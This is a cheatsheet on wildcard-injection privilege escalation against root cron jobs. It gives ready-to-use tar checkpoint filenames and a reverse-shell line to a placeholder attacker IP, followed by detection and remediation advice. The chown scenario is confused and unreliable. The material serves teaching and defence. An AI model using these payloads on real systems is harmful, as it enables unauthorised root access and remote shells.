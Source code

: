 ## 📬 Cheatsheet: Wildcard Injection Privilege Escalation

A wildcard injection vulnerability occurs when a privileged process (like a root cron job) uses a command with a wildcard (`*`, `?`) to act on files within a user-writable directory. The shell expands the wildcard, and if an attacker creates filenames that start with a dash (`-`), the command may interpret these filenames as options instead of file paths. This can be abused to hijack the command's execution flow and run malicious code.

### ## What to Look For (Reconnaissance)

An attacker is looking for any script or cron job running as root that uses a wildcard on a directory they can write to.

* **Analyze Cron Jobs:** This is the most common vector. Look for commands that operate on user-controlled directories.
    ```bash
    cat /etc/crontab
    ls -l /etc/cron.d/
    ```
    **Vulnerable Example:** A cron job runs `tar czf /backups/archive.tgz /home/user/files/*`. The `/home/user/files/` directory is writable by `user`.

* **Monitor Processes:** Use a tool like **pspy** to watch for privileged processes being executed. You might see a script run that isn't obvious from the crontab.

* **Inspect Scripts:** Manually review any system scripts you can read that are likely to be run as root (e.g., backup scripts, cleanup scripts) and look for commands like `tar`, `chown`, `rsync`, or `chmod` used with a wildcard.

---

### ## Common Exploitable Scenarios & Payloads

The exploit depends on the command being used. The goal is to create filenames that match the command's options.

#### **Scenario 1: `tar` with Checkpoints (Most Common)**
The `tar` command has options (`--checkpoint` and `--checkpoint-action`) that can be abused to execute a command.

* **Vulnerable Command:** `* * * * * root cd /home/user/data && tar czf /backups/data.tgz *`
* **Exploitation:**
    1.  Navigate to the writable directory (`/home/user/data`).
    2.  Create a file containing your payload (e.g., a reverse shell).
        ```bash
        echo "bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'" > shell.sh
        ```
    3.  Create two empty files whose names will be interpreted as command-line options.
        ```bash
        touch -- "--checkpoint=1"
        touch -- "--checkpoint-action=exec=bash shell.sh"
        ```
    4.  When the cron job runs `tar ... *`, the `*` expands to include these filenames. `tar` will execute `shell.sh` at its first checkpoint, giving you a root shell.

#### **Scenario 2: `chown` / `chgrp` with Reference**
The `chown` command has a `--reference` option to copy permissions from another file.

* **Vulnerable Command:** A script running `chown root:root *`.
* **Exploitation:** An attacker can't become root directly, but they can take ownership of a sensitive file. For example, they can use this to gain write access to `/etc/shadow` if they can make `chown` copy permissions from a file they own.
    ```bash
    # Create a file you own
    touch my_file
    # Create the malicious filename
    touch -- "--reference=my_file"
    # When 'chown root:root *' runs, it will also process '/etc/shadow' if it's in the same dir
    # and change its ownership to you instead of root.
    ```

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **Suspicious Filenames:** The presence of files named `--checkpoint=1` or other command-line options in user directories is a major indicator of an attempted exploit.
* **Process Auditing:** Monitor process execution. If a cron job is defined as `tar czf backup.tgz *`, but process logs show it running as `tar czf backup.tgz --checkpoint=1 ...`, it indicates a successful injection.

#### **How to Prevent Wildcard Injection**

* **Avoid Using Wildcards in Privileged Scripts:** This is the most robust defense. Instead of operating on a wildcard, explicitly find and loop through the files.
    ```bash
    # Bad:
    chown root:root /path/to/files/*

    # Good:
    find /path/to/files/ -type f -exec chown root:root {} \;
    ```

* **Use the `--` Argument:** The double-dash (`--`) is a standard shell convention that tells a command to stop processing options. Any argument after `--` is treated as a filename, even if it starts with a dash.
    ```bash
    # Bad:
    tar czf /backups/data.tgz *

    # Good:
    tar czf /backups/data.tgz -- *
    ```

* **Enforce Strict Permissions:** Do not run privileged commands that operate on directories where low-privilege users can create files. If a backup must be made, pull files from a location where users cannot control the filenames.
* **Regularly Audit Scripts:** Periodically review all scripts and cron jobs that run as root. Look for any use of wildcards and assess if they operate on a potentially controllable path.
